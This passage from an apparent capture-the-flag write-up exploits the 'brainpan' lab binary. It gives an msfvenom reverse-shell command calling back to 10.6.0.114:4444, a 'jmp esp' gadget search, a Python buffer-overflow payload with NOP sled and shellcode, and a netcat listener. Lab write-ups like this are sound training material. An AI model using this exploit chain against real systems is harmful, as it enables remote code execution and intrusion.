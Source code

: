 ```
0x00000000deadbeef: addb	%al,0x0(%eax)
Wine-dbg>

```

It is clear that we are controlling the instruction pointer.

Using a cargo package, [binary-security-check](https://github.com/koutheir/binary-security-check), we can see that it does not have DEP enabled:
`binary-security-check brainpan.exe`
```
brainpan.exe: +CHECKSUM !DATA-EXEC-PREVENT !RUNS-IN-APP-CONTAINER +CONSIDER-MANIFEST !VERI
```

This means we can get it to execute shellcode.

We can generate the shellcode using `msfvenom -p windows/shell_reverse_tcp LHOST=10.6.0.114 LPORT=4444 -f python -b='\x00'`

This gives us shellcode to be used in a python format that calls back to a meterpreter on port 4444 on our machine. 

Before we can jump to the shellcode, we need to find a ROP gadget to do so. Because we are writing to the stack, we want a gadget that does `jmp esp` to jump to the stack pointer.

We can find this gadget with `ROPgadget --binary brainpan.exe  | grep 'jmp esp'`, which gives us an address of `0x311712f3`

Thus, our payload looks like the following:

```python3
offset = 524
payload = b'A'*offset
payload += p32(0x311712f3)
payload += b'\x90'*32
payload += shellcode
```

Here, the instruction pointer is overwritten witht the address of `jmp esp`, which allows us to execute what is on the stack (our shellcode)

Here, `\x90` is the opcode for a `nop`, which is there to ensure that the shellcode runs properly.


### Connecting

To connect to the reverse shell, we have to set up a listener with `nc -lvnp 4444`

We can then run the python exploit and we should get a callback

# Local Reconnaissance

For some reason, `systeminfo` doesn't seem to work

Interestingly, it appears that we are on a linux file system. 

We can `c:` to get to the windows machine drive, but it doesn't look like a real windows filesystem.
